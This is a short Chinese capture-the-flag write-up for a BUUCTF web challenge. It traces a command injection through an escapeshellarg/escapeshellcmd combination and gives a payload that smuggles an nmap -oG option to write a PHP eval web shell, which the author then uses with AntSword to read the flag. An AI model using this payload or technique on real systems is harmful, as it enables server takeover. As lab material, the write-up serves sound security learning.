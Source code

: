url 如下

```
http://b4483574-049a-465c-af1b-ef87424d03fd.node4.buuoj.cn:81/result.php?f=9228e
```

一开始以为是文件包含, 然后发现报错的信息是 xml

![](assets/202208282136478-1700744628799121.png)

提示 xml 保存在 /xml/ 目录, 访问之前的扫描结果

![](assets/202208282136536-1700744628799123.png)

感觉不太像 xxe, 于是又回到最开始的界面, 可能是命令注入?

试了一下发现注入的命令 `127.0.0.1;ls` 还是包裹在引号里面的

再输入单引号试试

![](assets/202208282137383-1700744628799125.png)

有转义, 有一点熟悉, 应该是 escapeshellarg + escapeshellcmd 的组合

### 1. 直接拿之前推出来的 payload

过滤了 php 字符, 稍微改一改

```
'<?=eval($_REQUEST[1])?> -oG a.phtml '
```

蚁剑查看 /flag
